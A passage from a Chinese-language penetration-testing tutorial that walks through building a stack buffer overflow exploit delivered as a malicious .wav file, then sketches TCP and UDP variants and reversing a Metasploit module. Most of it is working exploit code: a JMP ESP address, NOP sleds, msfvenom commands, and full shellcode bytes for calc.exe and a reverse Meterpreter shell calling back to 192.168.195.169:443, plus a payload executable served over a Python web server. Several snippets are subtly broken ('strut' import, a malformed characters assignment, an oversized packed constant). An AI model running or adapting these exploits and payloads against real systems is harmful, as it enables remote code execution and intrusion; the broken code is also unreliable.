

程序和系统 DLL

双击 `kernel32.dll`，然后右键搜索特定命令：



一旦我们点击命令，我们搜索操作指令集 `jmp esp`，它告诉程序跳转到 ESP。



我们复制结果并获得以下信息：

```py
7C874413   FFE4             JMP ESP
```

接下来，我们将 EIP 设置为发现的地址。这个地址是一个很好的目标地址，因为没有坏字符，比如 "\x00"。这些字符实际上会阻止我们的代码完全执行。有很多方法可以测试坏字符，但有一些标准我们尽量避免。

+   空字符 ("\x00")

+   换页符 ("\xFF")

+   制表符 ("\x09")

+   换行符 ("\x0A")

+   回车符 ("\x0D")

其他字符可以通过使用潜在的坏字符列表对应用程序进行模糊测试来进行测试。你可以将这些字符集列表从 "\x00" 到 "\xFF" 注入进去。当你看到应用程序崩溃时，你已经确定了一个坏字符。删除元组中的字符，存储该值，然后再试一次。一旦通过一个坏字符执行而不崩溃，你就确定了所有可行的坏字符。在确定了剩余的堆栈空间有多大和偏移量之后，我们可以测试坏字符。

接下来是识别堆栈偏移空间。在利用脚本中将 shellcode 放在 EIP 值后面是无效的。这可能导致字符被无序读取，进而导致 shellcode 执行失败。

这是因为如果我们跳转到 ESP 而没有考虑到空隙，我们可能会偏移代码。这意味着完整的指令集将无法被整体解释。这意味着我们的代码将无法正确执行。此外，如果我们不精确并在 EIP 和 ESP 之间插入大量 NOP 数据，你可能会占用可用于 shellcode 的宝贵空间。记住，堆栈空间是有限的，所以精确是有益的。

为了测试这一点，我们可以编写一个快速生成器脚本，这样我们就不会影响我们的实际利用脚本。这个脚本帮助我们测试 EIP 和 ESP 之间的空隙。

```py
#!/usr/bin/env python
data = "A"*4112 #Junk
data += "BBBB" #EIP
data += "" #Where you place the pattern_create.rb data
open('exploit.wav', 'w').close()
with open("exploit.wav", "w") as text_file:
    text_file.write(data)
```

然后我们运行相同的 `pattern_create.rb` 脚本，但只使用 1000 个字符而不是 5000 个。将输出数据放入数据变量并运行生成器脚本。在监视程序的同时加载 `exploit.wav` 文件，就像之前一样。当程序再次崩溃时，查看 ESP 的转储。



当你查看转储时，你会发现最初偏移了十个字符。这意味着为了使这段代码的执行更可靠，我们需要在 EIP 和 shellcode 之间添加十个或更多个字符的 NOP。现在，我们需要确定在堆栈的这个位置有多少空间可以注入我们的代码。我们查看我们的内存转储，并找到开始和结束地址之间的差异，以确定我们有多少空间。通过取两个地址，我们发现我们有大约 320 字节的有限空间可以使用。

如果我们正在执行单阶段有效负载，有一些步骤我们可以执行来验证我们是否会保持在范围内。然而，我们正在执行多阶段有效负载，这意味着我们需要比提供的空间更多。这意味着我们需要实时修改堆栈大小，但在那之前，我们应该确认我们可以获得代码执行，并且你需要了解堆栈空间耗尽的情况是什么样的。

现在我们知道了我们的堆栈空间和偏移量，我们可以调整脚本以搜索潜在的恶意字符。接下来，我们在代码末尾添加一个 NOP 滑梯，以确保执行 Jump to ESP 直到它触及可执行代码。我们通过计算我们可以使用的整个区域，并从中减去偏移量和 shellcode 来实现这一点。

然后我们创建一个占据剩余空间的 NOP 滑梯。执行这个最简单的方法是使用类似于这个方程的方程`nop = "\x90"*(320-len(shell)-len(offset))`。更新后的 Python 代码如下所示。使用以下 Python 脚本，我们可以测试恶意字符；请注意，我们必须在初始大小之后进行这样做，因为我们的问题区域将在剩余的堆栈空间中。

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
characters"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
"\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d"
"\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c"
"\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b"
"\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a"
"\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59"
"\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77"
"\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86"
"\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95"
"\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4"
"\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3"
"\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe"
"\xff")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

我们应该生成我们的模拟 shellcode，程序将跳转到这里。对于一个初始测试案例，你希望从一个简单的例子开始，它不会有任何其他依赖关系。所以，我们可以告诉注入的代码调用一个`calc.exe`的实例。要做到这一点，我们只需要使用`msfvenom`来生成 shellcode。

```py
msfvenom -p windows/exec CMD=calc.exe -f c -b '\x00\xff'

```

这样做的目的是生成可以放置在 Python 元组中的 shellcode，并删除潜在的恶意字符`'\x00'`，`'\xff'`。像`msfvenom`这样的工具会自动使用编码器来完成这项工作。编码器的目的是删除恶意字符；有一个很大的误解，即它们用于绕过像防病毒软件这样的 HIPS。

多年前，在 HIPS 中进行基本的签名分析可能没有捕获到利用程序，因为它没有匹配一个非常具体的签名。今天，安全工具开发人员已经变得更加优秀，触发器更具分析性。因此，编码器帮助阻止 HIPS 解决方案捕获利用程序的谬论最终正在消失。



我们的新利用程序与`calc.exe`代码如下所示：

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xda\xd3\xd9\x74\x24\xf4\xb8\x2c\xde\xc4\x11\x5a\x29\xc9\xb1"
"\x31\x31\x42\x18\x03\x42\x18\x83\xea\xd0\x3c\x31\xed\xc0\x43"
"\xba\x0e\x10\x24\x32\xeb\x21\x64\x20\x7f\x11\x54\x22\x2d\x9d"
"\x1f\x66\xc6\x16\x6d\xaf\xe9\x9f\xd8\x89\xc4\x20\x70\xe9\x47"
"\xa2\x8b\x3e\xa8\x9b\x43\x33\xa9\xdc\xbe\xbe\xfb\xb5\xb5\x6d"
"\xec\xb2\x80\xad\x87\x88\x05\xb6\x74\x58\x27\x97\x2a\xd3\x7e"
"\x37\xcc\x30\x0b\x7e\xd6\x55\x36\xc8\x6d\xad\xcc\xcb\xa7\xfc"
"\x2d\x67\x86\x31\xdc\x79\xce\xf5\x3f\x0c\x26\x06\xbd\x17\xfd"
"\x75\x19\x9d\xe6\xdd\xea\x05\xc3\xdc\x3f\xd3\x80\xd2\xf4\x97"
"\xcf\xf6\x0b\x7b\x64\x02\x87\x7a\xab\x83\xd3\x58\x6f\xc8\x80"
"\xc1\x36\xb4\x67\xfd\x29\x17\xd7\x5b\x21\xb5\x0c\xd6\x68\xd3"
"\xd3\x64\x17\x91\xd4\x76\x18\x85\xbc\x47\x93\x4a\xba\x57\x76"
"\x2f\x34\x12\xdb\x19\xdd\xfb\x89\x18\x80\xfb\x67\x5e\xbd\x7f"
"\x82\x1e\x3a\x9f\xe7\x1b\x06\x27\x1b\x51\x17\xc2\x1b\xc6\x18"
"\xc7\x7f\x89\x8a\x8b\x51\x2c\x2b\x29\xae")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

然后我们运行代码生成新的恶意`.wav`文件，然后将其加载到程序中，看看 EIP 是否被覆盖，并且`calc.exe`二进制文件是否被执行。



现在基本的利用程序已经编写好了，我们可以更新它以通过这个弱点建立一个会话 shell。首先，我们需要确定对我们的利用程序来说最合适的有效负载大小。总的来说，这个堆栈空间是有限的，所以我们可以尝试最小化我们的足迹，但正如你将看到的那样，这并不重要。

你可以通过猜测和使用`msfvenom`和`-s`标志来生成你的有效负载，但这是低效和缓慢的。你会发现，随着有效负载的生成，它们可能根据你选择的有效负载类型和需要删除恶意字符和调整包大小的编码器而不兼容。

不要玩猜谜游戏，我们可以通过在`/usr/share/metasploit-framework/tools`目录中运行`payload_lengths.rb`脚本来确定一个好的起点。这些脚本提供了有关有效负载长度的详细信息，但请考虑我们正在寻找可能小于 300 个字符的小有效负载。因此，我们可以运行 awk 脚本来查找有效负载的大小，并使用 grep 来查找在 Windows 环境中使用的有效负载，如下所示：


这些命令的输出结果只有不到 40 个，但一些好的选项包括以下内容：



在我们的 Metasploit 实例上，我们启动`exploit/multi/handler`，它将接收 shell。



然后，我们生成我们的新 shell 代码`windows/meterpreter/reverse_nonx_tcp`，并用它替换我们的计算器代码。我们选择这种有效负载类型，因为它是一个非常小的 Meterpreter，这意味着由于我们知道我们的内存占用可能受限，我们有更好的机会成功利用这个漏洞。

```py
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -f c -b '\x00\xff\x01\x09\x0a\x0d'
```

### 提示

这些例子中列出了额外的坏字符。出于习惯，我通常在生成有效负载时将这些字符保留下来。请记住，您拥有的坏字符越多，编码器就必须添加执行功能等效操作的操作越多。这意味着随着您的编码越多，您的有效负载通常会变得更大。

命令的输出如下，只有 204 字节的大小：



放置在利用代码中，我们得到以下 Python 利用程序：

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

执行时，我们得到以下结果，显示利用程序生成了一个 shell：



现在，这个例子很简单，它可能为系统提供一个本地利用，但有一个问题，我们的利用失败了，因为空间不够。如前所述，我们必须调整我们放置 shell 代码的区域。

# 理解堆栈调整

我们表明代码执行在中间利用失败，因为我们的第二阶段在内存中破坏了我们的第一阶段代码。因此，我们需要更多的堆栈空间来完成这个利用。如果必要的话，我们可以在内存中分割我们的代码，或者我们可以简单地扩展堆栈中的空间。

这是通过告诉系统向 ESP 添加空间来完成的。您可以通过两种方式之一来实现这一点：通过添加负空间或减去正空间。这是因为堆栈从高地址向低地址增长，正如我们之前提到的那样。



因此，我们看到我们正在利用中破坏 shellcode，所以我们可以通过告诉 ESP 移动来补偿必要的空间。



为此，我们需要在 shellcode 的前面添加一个十六进制调整。我们将以两种不同的方式来做这件事。我们将在本节中重点介绍第一种方式。然后，我们将解释第二种方式，即反向 Metasploit 有效负载。首先，我们需要弄清楚如何调整实际的堆栈；我们可以使用`/usr/share/metasploit-framework/tools/nasm_shell.rb`中的`nasm_shell.rb`来做到这一点。

80,000 的堆栈调整意味着我们将这个值添加到 ESP。为此，我们需要计算 80,000 的 ESP 调整，但为了进行这个计算，我们需要将 80,000 转换为十六进制值。十六进制等价值为 13880。



### 提示

您可以使用内置的 Windows 计算器在科学模式下从十进制转换为十六进制，反之亦然。

这意味着我们在我们的漏洞利用中添加以下代码来调整堆栈`adjustment = struct.pack('<I',0x81EC80380100)`。然后，我们在 shellcode 之前添加调整值`exploit = fill + eip + offset + adjustment + shell`。最后，我们移除我们的 NOP sled，因为这不是填充我们的次级阶段将包含的空间，最终的代码将类似于这样。

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
adjustment = struct.pack('<I',0x81EC80380100)
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
exploit = fill + eip + offset +adjustment + shell
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

然而，这种方法存在一个问题。如果您的堆栈调整中有坏字符，您需要通过编码来消除这些字符。由于您通常不会在以后修改您的堆栈调整，您可以将其作为您的 shell 的一部分，并对整个代码块进行编码。当我们反向一个 Metasploit 模块时，我们将通过这个过程。

### 提示

确保在你的代码中添加关于你的堆栈调整的注释；否则，当你尝试扩展这个漏洞利用或使用其他有效负载时，你会非常沮丧。

作为一个附带的好处，如果我们使用这种方法而不是使用 NOP sleds，那么漏洞利用不太可能被 HIPS 捕捉到。现在我们已经做了所有这些，意识到有一种更简单的方法可以使用标准有效负载来获得访问权限。

### 提示

如果你仍然需要 NOPs 来进行真正的漏洞利用，确保使用 Metasploit 提供给你的 NOP 生成器。代码不使用"\x90"指令，而是进行无意义的数学运算。这些操作占用了堆栈空间，并提供了相同的功能。

# 理解本地利用的目的

值得注意的是，通过在系统上执行有效负载可以实现相同的访问权限。生成这样的有效负载只需要我们运行以下命令：

```py
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -b '\x00' -f exe -o /tmp/exploit.exe

```

然后，使用以下命令启动 Python Web 服务器：

```py
python -m SimpleHTTPServer

```

以下图表突出了相关命令的输出：



然后，通过浏览器在受害者系统上下载并执行有效负载来实现期望的结果。



因此，您可能会问自己，那我们为什么要创建这个漏洞利用呢？如果我们刚刚为其创建漏洞利用的软件是以管理员身份而不是我们登录的用户身份运行的，那么利用这个解决方案将更有用。然而，尽管这种情况在这个程序的性质中是不太可能的。因此，为这种漏洞生成 Metasploit 模块将不会很有用。相反，考虑到这一点，这个练习是写你的第一个漏洞利用的绝佳机会。

在编写漏洞利用时还有另一个考虑因素，那就是根据程序的不同，您的漏洞利用可能不太可靠。这意味着由于代码的细微差别，您的漏洞利用可能会时而有效，时而无效。因此，在真实组织中执行之前，您将不得不在实验环境中进行实质性的测试。

# 理解其他漏洞利用脚本

除了编写可以上传到程序中的恶意文件之外，您可能还需要生成与服务交互的代码，这些服务可以是接受参数的独立程序、TCP 服务，甚至是 UDP 服务。考虑我们刚刚利用的上一个程序，如果它的性质不同，我们仍然可以利用它，只是脚本与它交互的方式会有所不同。以下三个示例展示了如果满足这些条件，代码会是什么样子。当然，内存地址和大小必须根据您可能遇到的其他程序进行调整。

## 通过执行脚本利用独立的二进制文件

我们甚至可以创建 Python 脚本来包装需要传递参数的程序。这样，您可以使用包装脚本构建漏洞利用，这些脚本注入代码，如下所示：

```py
import subprocess, strut
program_name = 'C:\exploit_writing\vulnerable.exe'
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
remaining space
exploit = fill + eip + offset + shell
subprocess.call([program_name, exploit])
```

这种形式的利用是你可能会遇到的最罕见的，因为通常不会授予你任何额外的权限。创建这类利用时，通常是为了查看通过白名单程序与用户级权限相比可能被授予的额外访问权限。请记住，这种类型的利用比恶意文件、TCP 或 UDP 服务更难编写。在另一方面，你可能会编写的最常见的利用是 TCP 服务利用。

## 通过 TCP 服务利用系统

通常情况下，你会发现可以通过 TCP 进行利用的服务。这意味着，为了进行分析，你需要设置一个测试盒，其中安装了 Immunity 或其他调试器以及正在运行的服务。你需要将 Immunity 连接到该服务并测试你之前所做的利用。

```py
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 23
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.sendto(exploit, (rhost, rport))
```

如果第七章中突出显示的 TFTP 服务容易受到潜在的缓冲区溢出攻击，我们将考虑为 UDP 服务创建一个利用。

## 通过 UDP 服务利用系统

生成 UDP 服务的利用与 TCP 服务非常相似。唯一的区别是你正在使用不同的通信协议。

```py
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 69
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client.sendto(exploit, (rhost, rport))
```

现在你已经了解了你可能编写的最常见类型的利用的基础知识，让我们来看一下如何反向操作 Metasploit 模块。

# 反向操作 Metasploit 模块

很多时候，你可能会发现一个服务是可利用的，但 Metasploit 模块并没有构建用于利用该服务版本或特定操作系统版本的功能。这并不罕见，只需回想一下之前编写利用的情况。根据可能已被引用的 DLL，该模块可能没有针对特定操作系统进行更新。此外，如果新版本的操作系统发布，而程序或服务仍然可行，你可能需要扩展该模块。

回想一下第五章中的*用 Python 利用服务*，以及我们如何进行研究以查找内核是否存在漏洞。考虑进行类似研究可能会导致对潜在缓冲区溢出漏洞的引用。你可以从头开始，也可以将 Metasploit 模块反向操作为一个独立的 Python 脚本，并轻松测试扩展功能。然后，你可以将更改合并到 Metasploit 模块中，甚至创建你自己的模块。

我们将对 Sami FTP Server 2.0.1 的 Metasploit 模块进行反向操作，从概念上来说，实际上是。为了简洁起见，我们不会展示整个利用代码，但你可以在 Metasploit 的安装目录下的`/usr/share/metasploit-framework/modules/exploits/windows/ftp`中查看。关于这个模块的更多细节可以在这里找到：[`www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list`](http://www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list)。

反向操作 Metasploit 模块时的第一件事是设置实际的利用。这将揭示需要设置的用于利用实际服务的必要参数。正如你所看到的，我们需要用户名、密码和相关有效载荷。

